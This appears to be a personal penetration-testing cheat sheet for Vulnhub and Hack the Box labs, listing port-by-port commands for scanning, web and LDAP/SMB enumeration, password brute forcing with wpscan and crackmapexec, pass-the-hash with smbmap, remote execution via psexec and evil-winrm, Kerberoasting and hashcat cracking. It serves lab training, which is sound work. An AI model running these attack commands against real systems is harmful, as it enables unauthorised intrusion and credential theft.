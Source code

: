 Methodology

Scanning

if vulnhub

	- nmap -v -p- <target_ip> -oN nmap_initial_scan.txt
	- extract_open_ports.sh
	- nmap -v -p <open_Ports> -sC -sV -A -O <target_ip> -oN nmap_service_scan.txt

if Hack the Box

	- nmap -v -p- --min-rate 1000 <target_ip> -oN nmap_initial_scan.txt
	- nmap -v -p <ports_identified> -sCV -A <target_ip> -oN nmap_service_scan.txt

Enumeration

Port 80 443 HTTP and HTTPs

	- initial scanning and enum
		- first thing is to visit the page and see what's running

		- use searchploit and web for finding version exploit

		- while looking at the webpage do the following things

			- run nikto
				- nikto -h <target_ip>

			- run gobuster or feroxbuster
				- gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target_url> -t 50 -b 503,404
				- feroxbuster -u <target_url>

			- run dirsearch
				- dirsearch <target_url>

			- run fuff
				- ffuf -u http://usage.htb/ -H 'Host:FUZZ.usage.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -ac

			- run whatweb
				- whatweb <target_url>

			- run cmseek
				- cmseek <target_url>


	- if wordpress found

		- wpscan --disable-tls-checks --url <target_url> --enumerate ap,at,cb,dbe --plugins-detection aggressive -o wpscan_initial.txt
		- wpscan --url http://192.168.29.213/wp-login.php --password-attack wp-login --usernames username.txt --passwords <path_to_list>
		- proceed with wpscan -h (for dumping or cracking password)

	- if drupal found
		- use droopscan 
		- droopescan scan -u <taregt_url>
		- more on droopescan -h 

	- if joomla
		- joomscan -u <target_url>
		- more on joomscan -h



Port no 389 or 636 LDAP

	initial scanning and enum
		- use nmap script 
			- nmap -v -p 389,636 -sT -sV --script=ldap-search.nse <target_ip> -oN nmap_ldapsearch.txt
			- nmap -v -p 389,636 -sT -sV --script=ldap-rootdse.nse <target_ip> -oN nmap_rootdse.txt
			gather the information form this such as what is the dc name and if it gives the username note it down.


		- use ldapsearch for more enum
			- ldpasearch -x -H ldap://<target_ip>
			- ldapsearch -x -H ldap://<target_ip> -s base
			- ldapsearch -x -H ldap://<target_ip> -s sub
			- ldapsearch -x -H ldap://<target_ip> -s base -b "dc=domain,dc=name" (pass the domain name gathered from above enum)
			- ldapsearch -x -H ldap://<target_ip> -s sub -b "dc=domain,dc=name" (pass the domain name gathered from above enum)
			- ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "
			# from the above commands and output files search for passwd user description and other things to gather more information.
			# note down the user and password and other information clearly

		- base64 password decode
			- echo -n <hash> | bse64 -d



Port no 139 or 445 SMB

		- nmap scripts to run on ad = smb-security-mode.nse [it will be enabled or disabled]

		- enum4linux
			- enum4linux -a <target_ip>
			
			# dump interesting  information
				- enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
				- enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

		- smbclient
			- smbclient --no-pass -L //<IP>
			- smbclient --no-pass //<IP>/<Folder>
			- smbclient -U 'username' -L //<IP>
			- smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
				#Use --no-pass -c 'recurse;ls'  to list recursively with smbclient
			- smbclient -U '%' -N \\\\<IP>\\<SHARE> # null session to connect to a windows share
			- smbclient -U '<USER>' \\\\<IP>\\<SHARE> # authenticated session to connect to a windows share (you will be prompted for a password)

			NT_STATUS_PASSWORD_MUST_CHANGE then
			- smbpasswd -h 
			- smbpasswd -r <target_ip> -U '<username>'
			- smbpasswd -D 3 -r <target_ip> -U '<username>'

		- smb server version script
			- https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum3/smbver.sh

		- smbmap [connecting to smb]
			- smbmap -H <IP> [-P <PORT>] #Null user
			- smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
			- smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
			- smbmap -r -u "username" -p "password" -H <IP> [-P <PORT>] #Recursive list
			- smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
			- smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
			- smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
			
			- smbmap -u <username> -p 'ntlm hash:lm hash' -H <target ip>
			- smbmap -u <username> -p 'ntlm hash:lm hash' -H <target ip> -r [recursive switch for listing contents]
			- smbmap -u <username> -p 'ntlm hash:lm hash' -H <target ip> -r alice [share we want to use for recursive switch]
			- smbmap -u <username> -p 'mtlm hash: lm hash' -H <target_ip> --download <file path> [to download content from share]

		- convert .ppk to .pem 
			- apt-get install putty-tools
			- puttygen ppkkey.ppk -O private-openssh -o pemkey.pem
			# .pem to .ppk
			- puttygen pemKey.pem -o ppkKey.ppk -O private

	when we have the password
		- Command Execution on Smb using psexec
			- impacket-psexec <domain name>/<username>:<password>@<target_ip> <command>
				- impacket-psexec armourinfosec.local/sachin:@rmour123@192.168.29.100 ipconfig

			- more on https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#execute-commands

	when we don't have the passwords
		# list to use /usr/share/seclists/Passwords/500-worst-passwords.txt | /usr/share/seclists/Passwords/darkweb2017-top100.txt
		# now we have to brute force smb [tool we will use ic crackmapexec]

		SMB
			- sudo crackmapexec smb <targetip> -u <username or list> -p <password or list> --continue-on-success
			- sudo crackmapexec smb 10.10.10.10 -u username -p pass -M spider_plus --share 'Department Shares' 
				- -M spider_plus [--share <share_name>]
				- --pattern txt

		Winrm
			- sudo crackmapexec winrm 192.168.29.100 -u monah.bonita -p hello --continue-on-success
			- sudo crackmapexec winrm 192.168.29.100 -u smbusers.txt -p password1.txt --continue-on-success | grep '(Pwn3d!)'
			- sudo crackmapexec winrm 192.168.29.100 -u smbusers.txt -p /usr/share/seclists/Passwords/darkweb2017-top100.txt --continue-on-success | grep '(Pwn3d!)'
			- sudo crackmapexec winrm 192.168.29.1/24 -u monah.bonita -p hello [this will login the users to every pc which is running winrm on it]


Port no 5985 or 5986 Winrm

	- Utility used to run commands on windows machine and get shell access

	- Tool used = evil.winrm
		- download link https://github.com/Hackplayers/evil-winrm
	- evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'  
	- evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/' [-s can be used to run scripts] 


Port Number 88 Kerberos

	- first we will try to get the principal names from ldapsearch command which we have previously used.
		- ldapsearch -x -H ldap://192.168.29.100 -s sub/base -b "dc=domain,dc=name" | grep userPrincipalName: | cut -d " " -f 2 > userPrincipalName.txt
		- ldapsearch -x -H ldap://192.168.29.100 -s sub/base -b "dc=domain,dc=name" | grep sAMAccountName: | cut -d " " -f 2 > sAMAccountName.txt
		- ldapserach -x -H ldap://192.168.29.100 -s sub/base -b "dc=domain,dc=name" | grep servicePrincipalName: | cut -d " " -f 2 > servicePrincipalName.txt

	- using impacket-GetUserSPNs https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/
		- impacket-GetUserSPNs domain/username:password -dc-ip <target_ip>
		- impacket-GetUserSPNs armourinfosec.local/monah.bonita:hello -dc-ip 192.168.29.100
		# this will give us the list of services

		- impacket-GetUserSPNs domain/username:password -dc-ip <target_ip> -request
		# this will give us the hashes of the services. 

		# refer hashcat to crack the hash






Hash Cracking

	- finding hash type 
		- hashcat --example-hashes | grep <hash>
		- hash-identifier
			enter hash it will give the posible hash format.

		- hashcat -h | grep <hashtype> [to look for the hash number which is used in the next command]

		- hashcat -m 1800 -a 0 <path/to/hash> <path/to/rockyou> 


	- kerberos hash crack
		- hashcat --help | grep kerberos
		- hashcat -m 13100 [or mode which you want] -a 0 <path/to/hash> <path/to/rockyou>


In windows there are 4 ways to execute commands

1. Remote Desktop [3389]
2. Smb [139 445]
3. Telnet [23]
4. Winrm [5985 5986(secure)]

